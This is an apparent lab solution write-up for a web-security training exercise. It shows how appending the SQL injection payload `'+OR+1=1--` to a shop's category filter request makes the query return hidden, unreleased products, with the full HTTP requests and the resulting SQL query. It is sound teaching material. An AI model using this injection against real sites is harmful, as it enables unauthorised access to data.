 ```yaml
---
title: >
  Solution to Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
---
```


The following is a solution to the lab titled "Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data".

Access the lab. From the Home page, navigate to one of the shop categories. (For this solution, the category is Accessories.)

In Burp Suite, send the request for the Accessories page to Repeater. The following is the unmodified HTTP request.

~~~
GET /filter?category=Accessories HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

Modify the HTTP request, adding `'+OR+1=1--` after `category=Accessories`. The following is the modified HTTP request.

~~~
GET /filter?category=Accessories'+OR+1=1-- HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

As a result of this modification, all product information was returned, thus solving the lab.

---

*SQL Note*

The unmodified request (`GET /filter?category=Accessories`) results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
~~~

This returns products from the category Accessories that have been released (`released = 1`).

Adding the payload `'+OR+1=1--` to `/filter?category=Accessories` results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
~~~

This query grabs products in the category Accessories or where 1=1. One is always equal to one, so this query grabs all products. The addition of -- turns the rest of the line into a comment, so ` AND released = 1` is ignored.
